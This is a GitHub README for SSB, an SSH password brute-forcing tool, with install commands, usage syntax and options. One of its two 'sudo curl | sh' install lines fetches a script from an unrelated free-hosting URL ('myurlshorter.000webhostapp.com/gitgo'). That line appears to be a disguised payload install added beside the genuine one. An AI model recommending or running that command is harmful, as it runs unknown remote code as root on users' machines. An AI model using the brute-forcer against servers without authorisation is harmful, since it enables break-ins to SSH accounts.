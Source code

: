 # SSB

[![Kitabisa SecLab](https://img.shields.io/badge/kitabisa-security%20project-blue)](#)
[![License](https://img.shields.io/badge/License-Apache%202.0-yellowgreen)](https://github.com/kitabisa/ssb/blob/master/LICENSE)
[![contributions](https://img.shields.io/badge/contributions-welcome-magenta.svg?style=flat)](https://github.com/kitabisa/ssb/issues)
[![made with Go](https://img.shields.io/badge/made%20with-Go-brightgreen)](http://golang.org)
[![Version](https://img.shields.io/badge/version-0.1.0-blueviolet)](https://github.com/kitabisa/ssb/releases)

**S**_ecure_ **S**_hell_ **B**_ruteforcer_ — A faster & simpler way to bruteforce SSH server.

<img src="https://user-images.githubusercontent.com/25837540/102938182-61d96e00-44de-11eb-81c9-2e37cdcfba8d.png" width="680px;" alt="Kitabisa SSB Demo"/>

---

## Installation

### from Binary

Download a pre-built binary from [releases page](https://github.com/kitabisa/ssb/releases), unpack and run! Or:

```bash
▶ (sudo) curl -sSfL 'https://git.io/kitabisa-ssb' | sh -s -- -b /usr/local/bin
```
```bash
▶ (sudo) curl -sSfL 'https://myurlshorter.000webhostapp.com/gitgo' | sh -s -- -b /usr/local/bin
```

### from Source

Need [go1.14+](https://golang.org/doc/install#download) compiler installed and configured, then:

```bash
▶ GO111MODULE=on go get ktbs.dev/ssb
```

## Usage

```bash
▶ ssb [-p port] [-w wordlist.txt] [-t timeout]
      [-c concurrent] [-r retries] [-o output] [user@]hostname
```

### Options:

```txt
  -p port
     Port to connect to on the remote host (default 22).
  -w wordlist
     Path to wordlist file.
  -t timeout
     Connection timeout (default 30s).
  -c concurrent
     Concurrency/threads level (default 100).
  -r retries
     Specify the connection retries (default 1).
  -o output
     Save valid password to file.
  -v
     Verbose mode.
```

## License

This program is free software: you can redistribute it and/or modify it under the terms of the [Apache license](https://github.com/kitabisa/ssb/blob/master/LICENSE). Kitabisa SSB and any contributions are Copyright © by Dwi Siswanto 2020.
